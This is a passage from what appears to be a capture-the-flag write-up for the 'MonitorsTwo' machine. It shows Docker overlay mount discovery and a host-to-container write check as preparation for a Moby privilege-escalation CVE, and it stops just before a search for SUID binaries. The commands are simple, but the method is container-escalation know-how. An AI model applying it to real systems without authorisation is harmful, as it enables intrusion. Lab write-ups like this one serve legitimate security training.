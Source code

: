 #### Identifying Mounted Directories
---
We see that there is a mount at `/var/lib/docker/overlay2/l/756F`, so now to find the exact path, we execute the `mount` command.

The `mount` command in this context is used to list all mounted file systems on the system. In particular, it is used to identify the mount points of Docker containers within the `/var/lib/docker/overlay2/` directory.

```bash
mount
```

```bash
mount
--------------------------------MORE-------------------------------------------
pe tmpfs (rw,nosuid,nodev,noexec,relatime,size=65536k)
nsfs on /run/docker/netns/c2e40eea6571 type nsfs (rw)
overlay on /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged type overlay (rw,relatime,lowerdir=...)
```

We see that there is a path called `/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1`. Now, to elevate privileges, we navigate into it using `cd`.

```bash
marcus@monitorstwo:cd /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
```

We then execute `ls -la` to check if we are inside and verify if it is vulnerable.

```bash
ls -la
```

#### Exploiting the Moby CVE
---
Since it is vulnerable, we check if we can write to the host from the container by creating a file inside the container, specifically in `www-data@50bca5e748b0`.

```bash
www-data@50bca5e748b0:/tmp$ touch lome
```

And check if it has been created on the host:

```bash
marcus@monitorstwo:ls /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp
```
And we see that it is created, therefore we can exploit it later, but to do so we need to become root in the container.

#### ROOT IN CONTAINER
---
Once we confirm its creation, we search for `SUIDs` permissions inside the container by executing:
